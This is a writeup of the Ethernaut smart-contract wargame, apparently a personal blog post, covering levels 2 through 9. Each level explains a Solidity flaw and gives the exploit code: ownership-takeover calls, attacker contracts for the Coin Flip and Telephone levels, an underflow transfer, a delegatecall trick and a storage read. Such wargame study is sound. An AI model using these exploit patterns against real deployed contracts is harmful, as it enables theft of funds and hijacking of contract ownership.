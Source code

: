```yaml
---
layout: post
title: "Ethernaut writeup"
categories: posts
description: My ethernaut writeups
date: 2025-04-04 
en: true
authors: 
    - kappa
---
```


## Level 2 - Fallback
**Objective:** Become the contract owner.

### Vulnerability
To become the owner, we must surpass the current owner's contributions (1000 ETH). The `contribute()` function only allows donations of `<0.001 ETH`, making this impractical. However, the `receive()` function has flawed logic:

```solidity
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0); // Bug: Checks >0 instead of > owner's contributions
    owner = msg.sender;
}
```

### Solution
Make a tiny contribution (e.g., 1 wei) via `contribute()`.

Send a direct transaction (even 1 wei) to trigger `receive()`:

```javascript
await sendTransaction({from: player, to: contract.address, value: toWei('0.0000001')});
await contract.withdraw();
```

## Level 3 - Fal1out
**Objective:** Claim ownership.

### Vulnerability
In older Solidity versions (fixed now), constructors required matching contract names. Here, the constructor `Fal1out()` is misspelled (with a 1), so it never executed during deployment:

```javascript
function Fal1out() public payable {  
    owner = msg.sender;
}
```

### Solution
Call the "constructor" manually:

```javascript
await contract.Fal1out();
```

## Level 4 - Coin Flip
**Objective:** Guess the flip outcome 10 times consecutively.

### Vulnerability
The "random" result is derived from the previous block’s hash, making it predictable and deterministic:

```javascript
uint256 blockValue = uint256(blockhash(block.number - 1));
bool side = (blockValue / FACTOR) == 1; 
```

### Solution
Deploy an attacker contract that pre-calculates the result:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ICoinFlip{
    function flip(bool _guess) external returns (bool);
}

contract CoinFlipPwn{
    ICoinFlip public target;
    uint256 private constant FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    constructor(address _target){
    target = ICoinFlip(_target);
    }
    function attack() external{
        uint256 blockValue = uint256(blockhash(block.number - 1));
        bool guess = (blockValue / FACTOR) == 1;
        target.flip(guess);
    }
}
```

**Execution:**
- Deploy `CoinFlipPwn` with the target contract address.
- Call `attack()` 10 times (waiting for new blocks between calls).

## Level 5 - Telephone
**Objective:** Claim ownership.

- `tx.origin` - Always the user (EOA - External Owned Account) that signed the transaction, doesn't matter the intermediary.
- `msg.sender` - A contract can call another contract, so for example `EOA -> Contract A -> Contract B -> Contract C` sender of B is A and sender of C is B, meanwhile tx.origin of all of them is EOA
### Vulnerability
The `changeOwner()` function checks `tx.origin != msg.sender`, which can be bypassed via an intermediary contract:

```javascript
if (tx.origin != msg.sender) {  // tx.origin = EOA, msg.sender = attacker contract
    owner = _owner;
}
```

### Solution
Deploy a contract that calls `changeOwner()`:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0; 

interface ITelephone{
    function changeOwner(address _owner) external;
    function owner() external view returns (address);
}

contract TelephonePwn {
    ITelephone public target;
    constructor(address _target){
    target = ITelephone(_target);
    }
    function attack(address _newOwner) external{
        target.changeOwner(_newOwner);
    }
}
```

## Level 6 - Token
**Objective:** Exploit integer underflow to gain tokens.

### Vulnerability
The `transfer()` function lacks underflow protection (fixed in newer Solidity versions):

```javascript
require(balances[msg.sender] - _value >= 0);  
```

### Solution
Transfer more tokens than you own (e.g., `2^256 - 1`):

```javascript
await contract.transfer(anyAddress, 2n**256n - 1n);
```

## Level 7 - Delegation
**Objective:** Claim ownership via `delegatecall`.

**delegatecall** - is a low-level function that allows one contract to call another contract and run its code within the context of the calling contract
### Solution
Call `pwn()` through `delegatecall`:

```javascript
await sendTransaction({
    to: contract.address,
    data: web3.eth.abi.encodeFunctionSignature("pwn()")
});
```

## Level 8 - Force *(In Progress)*

## Level 9 - Vault
**Objective:** Unlock the vault by reading "private" storage.

### Vulnerability
Private variables are still visible in contract storage.

### Solution
Read storage slot 1 (holds password):

```javascript
password = await web3.eth.getStorageAt(contract.address, 1);
```

Call `unlock()` with the password:

```javascript
await contract.unlock(password);
```
